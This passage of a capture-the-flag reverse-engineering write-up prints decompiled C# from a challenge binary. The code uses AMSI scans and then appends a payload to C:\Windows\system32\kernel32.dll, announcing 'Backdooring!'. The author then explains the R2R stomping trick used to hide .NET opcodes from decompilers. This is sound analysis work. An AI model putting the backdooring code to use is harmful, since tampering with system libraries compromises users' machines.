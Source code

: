 ```csharp
	{
		((Environment)OpCode).Exit(-1);
	}
	int millisecondsTimeout = 600000;
	((Console)OpCode).WriteLine("AMSI Connection Established!");
	((Console)OpCode).WriteLine("Testing against known malicious sample!");
	if (AmsiScanString(amsiContextHandle, @string, "TEST", IntPtr.Zero, out var result) != 0)
	{
		((Environment)OpCode).Exit(-2);
	}
	if (result == AmsiResult.AMSI_RESULT_DETECTED)
	{
		((Console)OpCode).WriteLine("Testing String finished!");
		((Console)OpCode).WriteLine("Scanning malicious code: kernel32.dll");
	}
	byte[] array4 = ((File)OpCode).ReadAllBytes("C:\\Windows\\system32\\kernel32.dll");
	if (AmsiScanBuffer(amsiContextHandle, array4, array4.Length, "TEST", IntPtr.Zero, out result) != 0)
	{
		((Environment)OpCode).Exit(-3);
	}
	if (result == AmsiResult.AMSI_RESULT_NOT_DETECTED)
	{
		((Console)OpCode).WriteLine("Scanning finished, no threads found!");
	}
	try
	{
		((Console)OpCode).WriteLine("Clean library detected -> Backdooring!");
		FileStream fileStream = ((File)OpCode).OpenWrite("C:\\Windows\\system32\\kernel32.dll");
		((Stream)(*(OpCode*)fileStream)).Seek(((Stream)(*(OpCode*)fileStream)).Length, SeekOrigin.Begin);
		((Stream)(*(OpCode*)fileStream)).Write(array3, 0, array3.Length);
	}
	catch
	{
	}
	Console.WriteLine("Sleeping forever");
	Thread.Sleep(millisecondsTimeout);
```
There is actually a very weird part in this code. Here it is:

{{< image src="images/writeups/htb_ca_2024/weird.png" caption="Strange..." >}}

Why did ILSpy give us something like this? At that moment, I couldn't understand what its really mean. 

I spent a day viewing, doing stupid things in this dll and also TheGame.exe but its just a loader for TheGame.dll. For others dll, I didn't see anything suspicious too.

In the next day, I found this interesting [blog post](https://research.checkpoint.com/2023/r2r-stomping-are-you-ready-to-run/). 

TL;DR: The blog was about a technique that is used to hide .NET opcodes from some .NET assembly editor like dnSpy.
